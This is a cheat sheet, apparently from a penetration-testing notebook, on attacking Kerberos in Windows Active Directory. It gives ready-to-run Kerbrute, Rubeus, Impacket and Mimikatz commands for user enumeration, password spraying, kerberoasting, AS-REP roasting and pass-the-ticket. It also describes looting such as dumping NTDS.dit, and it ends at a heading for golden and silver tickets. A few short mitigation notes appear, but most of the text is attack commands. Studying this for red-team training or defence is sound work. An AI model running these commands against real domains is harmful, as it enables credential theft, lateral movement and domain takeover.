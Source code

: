 # Attacking Kerberos

## Attack Privilege Requirements

* Kerbrute Enumeration - No domain access required&#x20;
* Pass the Ticket - Access as a user to the domain required
* Kerberoasting - Access as any user required
* AS-REP Roasting - Access as any user required
* Golden Ticket - Full domain compromise (domain admin) required&#x20;
* Silver Ticket - Service hash required&#x20;
* Skeleton Key - Full domain compromise (domain admin) required

## Enumeration w/ Kerbrute

Brute force user accounts from a domain controller using a supplied wordlist:

```bash
./kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local User.txt
```

## Harvesting & Brute-Forcing Tickets w/ Rubeus

Harvest for TGTs every 30 seconds:

```powershell
Rubeus.exe harvest /interval:30
```

## Brute-Forcing / Password-Spraying w/ Rubeus

{% hint style="info" %}
Before password spraying with Rubeus, you need to add the domain controller domain name to the windows host file
{% endhint %}

```powershell
Rubeus.exe brute /password:Password1 /noticket
```

This returns .kirbi ticket (TGT)

{% hint style="warning" %}
Be mindful of how you use this attack as it may lock you out of the network depending on the account lockout policies.
{% endhint %}

## Kerberoasting w/ Rubeus & Impacket

### Rubeus

Dump the Kerberos hash of any kerberoastable users:

```powershell
Rubeus.exe kerberoast
```

Now you can take the hash of the service and crack it (Hashcat mode 13100 for TGS-REP)

### Impacket

Dump the hash:

```bash
impacket-GetUserSPNs controller.local/Machine1:Password1 -dc-ip 10.10.2.205 -request
```

### What can a Service Account do?

After cracking the service account password there are various ways of exfiltrating data or collecting loot depending on whether the service account is a domain admin or not.&#x20;

If the service account is a domain admin you have control similar to that of a golden/silver ticket and can now gather loot such as dumping the NTDS.dit.&#x20;

If the service account is not a domain admin you can use it to log into other systems and pivot or escalate or you can use that cracked password to spray against other service and domain admin accounts; many companies may reuse the same or similar passwords for their service or domain admin users.

### Kerberoasting Mitigation

* &#x20;Strong Service Passwords - If the service account passwords are strong then kerberoasting will be ineffective
* &#x20;Don't Make Service Accounts Domain Admins - Service accounts don't need to be domain admins, kerberoasting won't be as effective if you don't make service accounts domain admins.

## AS-REP Roasting w/ Rubeus

Look for vulnerable users and then dump found vulnerable user hashes:

```powershell
Rubeus.exe asreproast
```

Next, crack it with tools such as hashcat

### AS-REP Roasting Mitigations

* Have a strong password policy. With a strong password, the hashes will take longer to crack making this attack less effective
* Don't turn off Kerberos Pre-Authentication unless it's necessary there's almost no other way to completely mitigate this attack other than keeping Pre-Authentication on.

## Pass the Ticket w/ mimikatz

### Prepare Mimikatz & Dump Tickets

Run mimikatz:

```powershell
mimikatz.exe
```

Check privilege:

```powershell
privilege::debug
```

{% hint style="warning" %}
Ensure above command outputs \[output '20' OK] if it does not that means you do not have the administrator privileges to properly run mimikatz
{% endhint %}

Export all of the .kirbi tickets into the directory that you are currently in:

```powershell
sekurlsa::tickets /export
```

### Pass the Ticket

Run this command inside of mimikatz with the ticket that you harvested from earlier. It will cache and impersonate the given ticket:

```powershell
kerberos::ptt <ticket>
```

Now, go to **CMD or PowerShell**;

Verifying that we successfully impersonated the ticket by listing our cached tickets:

```powershell
klist
```

Now, you can look at the admin share to verify it one more time:

```powershell
dir \\controller.local\admin$
```

### Pass the Ticket Mitigation

* Don't let your domain admins log onto anything except the domain controller - This is something so simple however a lot of domain admins still log onto low-level computers leaving tickets around that we can use to attack and move laterally with.

## Golden/Silver Ticket Attacks w/ mimikatz

